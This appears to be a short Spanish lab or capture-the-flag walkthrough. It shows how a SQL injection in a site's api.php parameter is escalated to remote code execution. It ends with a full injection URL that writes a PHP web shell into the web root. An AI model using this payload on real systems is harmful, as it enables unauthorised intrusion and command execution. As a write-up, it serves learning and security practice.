 Intentando algunas cosas encontraremos que el sitio es vulnerable a sql injection

![20240206160326.png](20240206160326.png)

Ahora enumeraremos el sitio web para encontrar la base de datos, las tablas, las columnas para luego enumerar el contenido de estas con diversas [payloads](https://github.com/payloadbox/sql-injection-payload-list)

Debemos tener en cuenta el siguiente código
![20240207021316.png](20240207021316.png)

Después  de entender en código anterior, podemos concluir que podemos intentar un [sqli to RCE](https://kayran.io/blog/web-vulnerabilities/sqli-to-rce/). Para ello usaremos la siguiente inyección para crear un archivo y usarlo para ejecutar comandos  

```PHP
http://10.10.252.81/api.php?apikey=WEBLhvOJAH8d50Z4y5G5&documentid=1%20union%20select%201,%27%3C?php%20system($_GET[%22cmd%22]);%20?%3E%27,3%20into%20outfile%20%27/var/www/html/cmd.php%27%20--%20-
```
